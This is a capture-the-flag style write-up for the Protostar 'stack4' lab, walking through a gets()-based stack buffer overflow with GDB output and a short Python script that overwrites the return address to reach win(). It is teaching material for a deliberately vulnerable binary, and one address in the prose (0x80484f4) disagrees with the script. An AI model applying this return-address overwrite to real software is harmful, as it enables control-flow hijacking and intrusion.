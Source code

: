 # Stack4 Solution

## C Code

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

* A variety of introductory papers into buffer overflows may help.
* gdb lets you do `run < input`
* EIP is not directly after the end of buffer, compiler padding can also increase the size.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```


## Return Address

Now, we are given the **same task as** [stack3](https://github.com/Naksh-Rathore/protostar-solutions/tree/main/stack3), only with **no function pointer**.
You may be wondering, how do we do this. The way to do it is by using something called a **return address**. A return address is a **value pushed onto the stack** 
that **tells the program where to resume execution** (the next instruction) after a **function call completes**. At the end of a function call, a `ret` **instruction is
always placed at the end**. What the `ret` instruction does is **change EIP to the return address**, then **pop the return address** off of the stack.

## Vulnerability

*Again*, you may be asking how do we use this to go the the `win()` function. The answer lies in **overflowing the stack values by means of** `gets()` (which is vulnerable to buffer overflows) **until we reach the return address, then
changing it**. But one of the hints were that **EIP (Return Address) is not directly after the end of buffer because of padding and compiler optimizations**. 

## Stack Visualization

Here is a **visual** of the stack

```
[ Buffer (64 bytes) ]
[ Saved EBP (4 bytes) ]
[ Return Address (4 bytes) ]
[ Other Stuff ]
```

Remember, the byte amount can **shift** due to compiler optimizations, stack misalignments, and padding.

## Exploit

Ok, so now we have a **rough idea**, let's get our padding sizing and memory addresses.

First, let's throw a **long string** at the binary in GDB.

To do that, **disassemble** `main()` and set a breakpoint at the `ret` instruction.

```bash
user@protostar:/opt/protostar/bin$ gdb stack4
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave  
0x0804841e <main+22>:   ret    
End of assembler dump.
(gdb) break *main+22
Breakpoint 1 at 0x804841e: file stack4/stack4.c, line 16.
(gdb) 
```

Now that we have **our breakpoints set**, let's **run it** and provide `QQQQWWWWEEEERRRRTTTTYYYY....` as input. After that, let's check out all of our registers to see **what letter overwritten EBP**.

```bash
(gdb) r
Starting program: /opt/protostar/bin/stack4 
QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNMMMM

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x4c4c4c54
) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) info registers
eax            0xbffff760       -1073744032
ecx            0xbffff760       -1073744032
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7ac       0xbffff7ac
ebp            0x4c4c4c4c       0x4c4c4c4c
esi            0x0      0
edi            0x0      0
eip            0x804841e        0x804841e <main+22>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

Now, **we see that EBP was overwritten** to `0x4c4c4c4c`, which is `LLLL` in ASCII. That means to **overwrite the return address**, we need to **first pass** `QQQQWWWWEEEERRRRTTTTYYYY...` until `LLLL`. Then, we can **overwrite the return address with anything we want** by just **appending it to the end** of the string.

```bash
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x5a5a5a5a in ?? ()
(gdb) 
```

Once we continue (`c`), we see that the **return address got overwritten** to `0x5a5a5a5a` (`ZZZZ`) because the **program tried to go to that memory address** which is of course **illegal**. That **checks out** with the EBP overwrite because `ZZZZ` was **right after** `LLLL` in the input string, which **matches up perfectly with our stack visual** from earlier. 

So now we need to get the **memory address** of the `win()` function. Do to that, we use the `p` command in GDB to **print the value of whatever comes after it**.

```bash
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
(gdb) 
```

We see that the **memory address** of `win()` is `0x80483f4`. Now we have *everything* needed to **create our exploit script**.

To **create our exploit script**, we first need to pass `QQQWWWWEEEERRRRTTTTYYYY...` until `LLLL`, then pass `0x80484f4` in **little-edian** to properly **overwrite the return address** and **jump to** the `win()` function to complete the challenge!

Here is the exploit script stored in `/tmp`:

```python
import struct

padding = "QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKK"
ebp = "LLLL"
win_func = struct.pack("I", 0x80483f4)

print(padding + ebp + win_func)
```

Now enter this:

```bash
python /tmp/exploit.py | /opt/protostar/bin/stack4
```'

Result:

```bash
code flow successfully changed
Segmentation fault (core dumped)
```

The **segfault** at the end is because we **overwritten the saved EBP** to an invalid address (`0x4c4c4c4c`).

## Resources

* [C Code](https://exploit.education/protostar/stack-four/)
* [Geeks for Geeks Article on Return Addresses](https://www.geeksforgeeks.org/dsa/how-is-return-address-specified-in-stack/)



